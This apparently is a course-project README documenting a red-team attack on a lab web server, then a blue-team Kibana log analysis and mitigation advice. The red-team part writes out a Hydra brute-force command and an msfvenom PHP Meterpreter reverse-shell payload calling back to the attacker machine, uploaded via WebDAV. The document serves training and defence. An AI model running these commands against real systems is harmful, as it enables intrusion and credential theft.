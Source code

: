 # Red_Vs_Blue-Project
The assessment, analysis, and hardening of a vulnerable system from the red and blue persepctive.

# Scenario

Assuming the role of both pentester (The Red Team) and SOC analyst (The Blue team), The Red Team will attack a vulnerable Capstone virtual machine, ultimately gaining root access to the machine. As Blue Team, Kibana logs will be reviewed taken during the Day 1 engagement. The logs will be used to extract hard data and visualizations. Log data will be interpreted for mitigation measures for each exploit that was successfully performed.

# Network Topology

|  IP Address   |       Machine       |
|:-------------:|:-------------------:|
|  192.168.1.1  |       Hyper-V       |
|  192.168.1.90 |         Kali        |
| 192.168.1.100 | Elastic Stack (ELK) |
| 192.168.1.105 |       Capstone      |

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/d376cac01957cbf835b0715394d88edb26bec282/Images/Project%202%20-%20Network%20Diagram.jpg)

# Red Team - Penetration Test

1. Using NetDiscover, Nmap and a simple ifconfig command, the IP address of the Linux web server was uncovered. The IP address is **192.168.1.105**. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205454.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-04%20205453.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112341.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/5ebd395fc5e24f73acfa663b82b8f98cd51502ce/Images/Screenshot%202021-11-06%20112533.png)

In the above image, port 22 and port 80 are exposed.

2. A browser was opened and then navigated to the IP address that was discovered. A web server with a list of directories was displayed. After performing a cursory research into each directory, there was mention of a "secret folder" that proved to be a point of interest. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113607.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114044.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20113801.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/775e4bddce20634c247b0dc21a4d30fefb18d59e/Images/Screenshot%202021-11-06%20114329.png)

3. After navigating to the secrect folder directory by typing http://192.168.1.105/company_folders/secret_folder/, there was a road block. Credentials were needed. A login screen pops up and states "For Ashton's eyes only". More research into the "meet_our_team" directory was done to find out more information on Ashton.

Unfortunately, no further information was found on Ashton and brute forcing would have to be the next option. Hydra was used to retrieve Ashton's password using the command:

**_hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder -t 40_**

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f7fe5da82c489111f87e4dde35b77319200cfc02/Images/hydra%20scan.jpg)

4. Logging into the "secret folder" was successful! Once logged in, a lone file called "connect_to_corp_server" was discovered. Inside the file was a set of intructions on how to connect to the company's WebDAV server, along with a user named Ryan and a password MD5 hash. With the help of crackstation.net, Ryan's password was cracked.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20124857.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125023.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20125348.png)

5. The directions in the "connect_to_corp_server" file were followed in order to gain access to the WebDAV server with Ryan's credentials. The WebDAV had unrestricted upload permissions. A payload using MSFVenom was created in order to create a PHP reverse shell using the command:

**_msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw -o shell.php_**

It was then uploaded into the WebDAV directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/e2c36d9e7eb7beaefd8b154e2cc1eee4164c58de/Images/Screenshot%202021-11-06%20140046.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-06%20141644.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20192302.png)

6. A listener in Metasploit was deployed. Soon after the playload was lauched, and lastly a Meterpreter session was accessed.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/f5f5c6f20dd6630abaa687035b0e25f682133603/Images/Screenshot%202021-11-09%20200616.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/4e28a3a131aef17e23ccd59671f184e0ff509ea1/Images/Screenshot%202021-11-11%20200617.jpg)

7. Once a shell was created and entered, the target file was located and a flag was found.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/50f24246cd5f1cfe8f8fb4a20335882dabde69dd/Images/Flag.jpg)

## Blue Team - Analysis of Attack ##

With the Red Team attack complete, It is now time to switch sides to the Blue team and anaylze the attack. Elastic Stack (ELK - 192.168.1.100) was used to send data and logs to Kibana. Filebeat, metricbeat, and packetbeat were installed prior on the target machine to perform an analysis of the attack. Indicators of attack will also be studied.

The first indicator of the attack was a port scan that bagan on **November 6th, 2021**. 11,238 packets were sent from 192.168.1.90 (the attack machine)

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/39eaf44b7769274d99a60fdd67c4bfc06083c78a/Images/Day2/Screenshot%202021-11-11%20212258.png)

This is what was sent back:

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/fc199d4c763726196340f5835d465054b99cef88/Images/Day2/Screenshot%202021-11-13%20103402.png)

The data shown in the above image is concerning due to the fact that there is a spike in activity on **November 6th, 2021** and also the amount of errors codes that resulted. This can be a clear indication of a brute force attack. The result of trying different credentials over and over would create a large amount of 401 error codes, showcased by the spike in activity on the chart. According to the _status_ and _http.response.status_code_ fields on the left of the image above, The records are mostly 401 and 207 errors. The 401 errors could be a result of a brute force attack, while the 207 errors indicate that a request has succeeded. This means a brute force attack was launched and successful.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20115505.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20120213.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20131059.png)

The images above are screenshots of the attacker accessing http://192.168.1.105/company_folders/secret_folder and http://192.168.1.105/company_folders/secret_folder/connect_to_corp_server. The user agent for these attacks was Mozilla/4.0 (Hydra) which is a brute force attack tool. 224 requests were made to the hidden directory at 4pm the same day. 

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/c8d1430d6a213328d304badefa4f119f98b36efc/Images/Day2/Screenshot%202021-11-13%20124152.png)

The file that was requested was a _doc file. This file contained instructions on how to add and access the webdav network server.

It was also discovered that the WebDAV directory was accessed from IP address 192.168.1.90. The attacker uploaded and accessed multiple files in the directory.

![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/67becebda91a9514764ba172186237cdb12b3a07/Images/Day2/Screenshot%202021-11-13%20134817.png)
![name-of-you-image](https://github.com/ldover29/Red_Vs_Blue_Project/blob/67becebda91a9514764ba172186237cdb12b3a07/Images/Day2/Screenshot%202021-11-13%20114144.png)

## Vulnerabilities & Mitigation ##

After discovering multiple vulnerabilities on the target VM, here are so mitigation strategies to help defend agasint further attacks in the future.

**Preventing Brute Force Attacks**

Mitigation:

- An alarm should be set to limit how many attempts can be made when entering a password before the user is locked out. 
   - The threshold should be set very low to deter threat actors, for example, 5 attempts.
   - After 5 attempts, the user will be permanently locked out until and administrator can be contacted.
   - Weak passwords is the root of this attack.
   - Since some of the users of the company have such weak password, password requirements should be put in place.
   - Two factor authentication, complex passwords (8 or more characters, special characters, numbers, contains no English words and case sensitive) and changing passwords once a month would be additional ways to mitigate attacks.

**Blocking the Port Scan**

Mitigation:

- Set an alarm that alerts of a high number of port scans through a firewall
  - An email should be sent to administrators when more then 10 port scans are done within a minute.
  - Only traffic from certain ports should be allowed; such as, port 80 and 443 to allow traffic from the internet. 

**Finding the Request for the Hidden Directory**

Mitigation:

- Set an alarm that sends an email alert for higher than normal traffic and unauthorized IPs accessing the secret folder.
  - No more than 4 attempts to access the folder should be made.
  - Only allow authorized IPs to have access to the secret folder as a whitelist. Also, encrypt any sensitive data and folders.
_/etc/httpd/conf/httpd.conf_ is where a whitelist can be made.

**Detecting the WebDAV Connection**

Mitigation:

- An alarm can be set to monitor traffic and connection attempts from unauthorized IPs to the webdav network.
  - The unauthorized user will only have 1 attempt.
  - Blocking traffic from unauthorized IPs with a whitelist or group policy
  - Also, more complex passwords (8 or more characters, special characters, numbers, containing no English words and case sensitive) should be implemented to avoid brute force attacks.

**Identifying Reverse Shell Uploads**

Mitigation:

- Create an alarm to alert when a file is being upload to the webdav folder, whether it is malicious or not. Another alarm should be made when port 4444 is being connected to.
  - Alerts should be immediate!
  - Access to the webdav folder should be set to “ready only”. Also, only authorized IPs should have access to the webdav folder.


